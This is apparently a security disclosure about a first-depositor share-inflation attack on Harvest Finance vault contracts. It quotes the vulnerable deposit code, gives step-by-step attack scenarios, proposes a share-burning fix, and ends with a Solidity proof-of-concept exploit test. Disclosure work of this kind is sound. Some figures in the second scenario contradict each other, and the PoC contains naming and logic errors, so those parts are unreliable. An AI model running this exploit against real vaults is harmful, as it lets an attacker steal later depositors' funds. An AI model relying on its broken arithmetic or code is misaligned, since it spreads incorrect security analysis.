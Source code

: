 # A malicious first depositor can manipulate price per share and steal future users' deposits for newly deployed vault.

Let's imagine a situation that new vault is just deployed by Harvest Finance.

A hacker can become first depositor of new vault and steal subsequent user's investment into new vault.

When making a deposit, depositor's share is calculated as following in `Vault.sol`.
```solidity
price per share =  
  if msg.sender == first depositor
    1
  else
    underlyingBalanceWithInvestment() / totalSupply()
```
https://github.com/harvest-finance/harvest-strategy/blob/master/contracts/base/Vault.sol#L299-L317

https://github.com/harvest-finance/harvest-strategy/blob/master/contracts/base/VaultPausable.sol#L300-L318

https://github.com/harvest-finance/harvest-strategy/blob/master/contracts/base/VaultV3.sol#L304-L322

https://github.com/harvestfi/harvest-strategy-arbitrum/blob/master/contracts/base/VaultV1.sol#L291-L308

```solidity
  function _deposit(uint256 amount, address sender, address beneficiary) internal {
    require(!paused(), "Deposits are paused");
    require(amount > 0, "Cannot deposit 0");
    require(beneficiary != address(0), "holder must be defined");

    if (address(strategy()) != address(0)) {
      require(IStrategy(strategy()).depositArbCheck(), "Too much arb");
    }

    uint256 toMint = totalSupply() == 0
        ? amount
        : amount.mul(totalSupply()).div(underlyingBalanceWithInvestment());
    _mint(beneficiary, toMint);

    IERC20(underlying()).safeTransferFrom(sender, address(this), amount);

    // update the contribution amount for the beneficiary
    emit Deposit(beneficiary, amount);
  }
```

A malicious first depositor can `deposit()` with `1 wei` of `underlying` token as the first depositor of the `Vault`, and get `1 wei` of shares.

Then the attacker can send `10000e18 - 1` of `underlying` tokens to the vault and inflate the price per share from 1.0000 to an extreme value of 10000e18 ( from `(1 + 10000e18 - 1) / 1`) .

There are two sceanarios for future depositor

- If future depositor's deposit amount >= 10000e18, e.g 20000e18 - 1

```
returned share = `1 wei` (from `19999  ether * 1 / 10000  ether`)

vault's totalSupply = 2

vault's underlying balance = 30000e18 - 1

price per share = 15000e18

attacker' profit = 5000e18

victim's loss =  5000e18
```

- Future depositor's deposit amount < 10000e18, e.g 10000e18 - 1
```
returned share = `0 wei` (from `(10000e18 - 1) / 10000  ether`)

vault's totalSupply = 1

vault's underlying balance = 20000e18 - 1

price per share = 25000e18 - 1

attacker' profit = 1000e18 - 1

victim's loss =  1000e18 - 1
```

## Impact

The attacker can profit from future users' deposits while the late users will lose part of their funds to the attacker.


## Recommendation
The fix to prevent this issue would be to enforce a minimum deposit that cannot be withdrawn. This can be done by minting small amount of vault token to `0x00` address on the first deposit.

```solidity
  function _deposit(uint256 amount, address sender, address beneficiary) internal {
    require(!paused(), "Deposits are paused");
    require(amount > 0, "Cannot deposit 0");
    require(beneficiary != address(0), "holder must be defined");

    if (address(strategy()) != address(0)) {
      require(IStrategy(strategy()).depositArbCheck(), "Too much arb");
    }

    uint256 toMint;
    if (totalSupply() == 0) {
      _mint(address(0), 1000);
      amount -= 1000;
      toMint = amount;
    }
    else {
      toMint = amount.mul(totalSupply()).div(underlyingBalanceWithInvestment());
    }
    
    _mint(beneficiary, toMint);

    IERC20(underlying()).safeTransferFrom(sender, address(this), amount);

    // update the contribution amount for the beneficiary
    emit Deposit(beneficiary, amount);
  }
```
Instead of a fixed `1000` value an admin controlled parameterized value can also be used to control the burn amount.

Another fix would be that the protocol owners perform the initial deposit themselves with a small amount of `underlying` tokens and send them to a 0x00 address.

## Proof of Concept
```solidity

// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;

import "forge-std/Test.sol";

contract ContractTest is DSTest {
    CheatCodes  cheat = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    address     attacker = 0xA6AF2872176320015f8ddB2ba013B38Cb35d22Ad;
    address     victim = 0x14d8ada7a0ba91f59dc0cb97c8f44f1d177c2195;
    IERC20      underlying = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

  function setUp() public {
    cheats.createSelectFork("mainnet"); 
  }

  function testExploit() public {
    Vault impl = new VaultV3();
    Vault vault = Vault(new VaultProxy(impl));

    cheat.startPrank(attacker);
    vault.deposit(1);
    underlying.transfer(address(vault), 10000 ether - 1);
    emit log_named_uint("Attacker's vault share", vault.balanceOf(address(this)));

    cheat.startPrank(victim);
    vault.deposit(20000 ether - 1);
    emit log_named_uint("Victim's vault share", vault.balanceOf(address(this)));

    emit log_named_uint("Attacker's profit : ", vault.underlyingBalanceWithInvestmentForHolder(attacker) - 10000 ether);
    emit log_named_uint("Victims's loss : ", 20000 ether - 1 - vault.underlyingBalanceWithInvestmentForHolder(victim));
  }
}

```